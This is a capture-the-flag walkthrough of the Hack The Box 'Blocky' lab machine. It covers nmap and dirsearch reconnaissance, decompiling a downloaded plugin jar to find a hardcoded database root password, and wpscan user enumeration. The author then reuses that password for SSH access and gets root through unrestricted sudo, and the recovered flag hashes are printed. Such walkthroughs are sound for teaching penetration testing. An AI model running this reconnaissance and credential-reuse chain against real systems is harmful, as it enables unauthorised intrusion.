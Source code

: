 ## -------------->> Blocky <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.37 -p-
-----------

    Nmap scan report for 10.10.10.37
    Host is up (0.14s latency).
    Not shown: 65530 filtered ports
    PORT      STATE  SERVICE   VERSION
    21/tcp    open   ftp       ProFTPD 1.3.5a
    22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
    |   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
    |_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
    80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
    |_http-generator: WordPress 4.8
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: BlockyCraft &#8211; Under Construction!
    8192/tcp  closed sophos
    25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 184.05 seconds

// Navigating to http://10.10.10.37/ , display us a game website in development

// Rolling down the site there is a 'Login' button

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/1.png)

// Clicking on the login redirect us to http://10.10.10.37/wp-login.php

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/2.png)

// Lets search for some interesting files or directories with [dirsearch](https://github.com/maurosoria/dirsearch) tool (By maurosoria).

    $ python3 dirsearch.py -u http://10.10.10.37/ -t 100
-----

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.10.37/_21-08-12_09-31-32.txt

    Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-12_09-31-32.log

    Target: http://10.10.10.37/

    ...
    
    [09:32:19] 200 -   19KB - /license.txt
    [09:32:27] 200 -   10KB - /phpmyadmin/
    [09:32:27] 200 -  745B  - /plugins/
    [09:32:29] 200 -    7KB - /readme.html
    [09:32:38] 200 -  380B  - /wiki/
    [09:32:38] 200 -    1KB - /wp-admin/install.php
    [09:32:38] 200 -    0B  - /wp-config.php
    [09:32:38] 200 -    0B  - /wp-content/
    [09:32:38] 200 -    1B  - /wp-admin/admin-ajax.php
    [09:32:38] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
    [09:32:39] 200 -  965B  - /wp-content/uploads/
    [09:32:39] 200 -    0B  - /wp-cron.php
    [09:32:39] 200 -    2KB - /wp-login.php
    [09:32:39] 200 -   40KB - /wp-includes/

    Task Completed

// Found directories: /wiki/ , /plugins/ , /phpmyadmin/ , /wp-includes/ , 

// /Wiki-Underconstructin , /phpmyadmin/-phpmyadmin login , /wp-includes/-Wordpress plugins

// But, /plugins/ have 2 interesting files in him

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/3.png)

// Its two .jar(ziped java) files , Download them

    $ ls
    BlockyCore.jar  griefprevention-1.11.2-3.1.1.298.jar

// Lets unpack BlockyCore.jar

    $ jar -xf BlockyCore.jar 
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

// BlockyCore.jar generated 2 directories: META-ING & com

    $ tree
    .
    ├── BlockyCore.jar
    ├── META-INF
    │   └── MANIFEST.MF
    └── com
        └── myfirstplugin
            └── BlockyCore.class

// We can see that inside com there is another directory with file in him - 'BlockyCore.class'

// tring to see the file contant failed becouse its compiled, let decompile that file with online [java decompiler tool](http://www.javadecompilers.com/result)

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/4.png)

    package com.myfirstplugin;

    public class BlockyCore
    {
        public String sqlHost;
        public String sqlUser;
        public String sqlPass;

        public BlockyCore() {
            this.sqlHost = "localhost";
            this.sqlUser = "root";
            this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        }
        public void onServerStart() {
        }
        public void onServerStop() {
        }
        public void onPlayerJoin() {
            this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
        }
        public void sendMessage(final String username, final String message) {
        }
    }

// We have sql root credentials ! 

        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
        

// Since we know now we dilling with Wordpress CMS we can use [wpscan](https://wpscan.com/wordpress-security-scanner) to scan for vulnerabillities

    $ wpscan --url http://10.10.10.37/ --api-token YOUR_API_KEY --plugins-detection mixed -e
-----

    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|

             WordPress Security Scanner by the WPScan Team
                             Version 3.8.18
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________

    [+] URL: http://10.10.10.37/ [10.10.10.37]
    [+] Started: Thu Aug 12 06:04:31 2021
    
    ...

    [i] User(s) Identified:

    [+] notch
     | Found By: Author Posts - Author Pattern (Passive Detection)
     | Confirmed By:
     |  Wp Json Api (Aggressive Detection)
     |   - http://10.10.10.37/index.php/wp-json/wp/v2/users/?per_page=100&page=1
     |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     |  Login Error Messages (Aggressive Detection)

// We have username 'notch' for Wordpress 

// Also can find in the main site

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Blocky/5.png)

// Since we have user, password and SSH service running, lets try to connect

    $ ssh notch@10.10.10.37

    notch@10.10.10.37's password: 
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

    notch@Blocky:~$ id
    uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

// We connected !!! And have user flag

    notch@Blocky:~$ cat user.txt 
    59fee0977fb60b8a0bc6e41e751f3cd5

### -----Privilleges Escalation-----

// running 'sudo -l' command we can see that this user can run sudo so simple 'sudo -i' gets us root


    notch@Blocky:~$ sudo -l
    [sudo] password for notch: 
    Matching Defaults entries for notch on Blocky:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User notch may run the following commands on Blocky:
        (ALL : ALL) ALL

    notch@Blocky:~$ sudo -i
    root@Blocky:~# 

// And the flag !

    root@Blocky:~# cat root.txt 
    0a9694a5b4d272c694679f7860f1cd5f
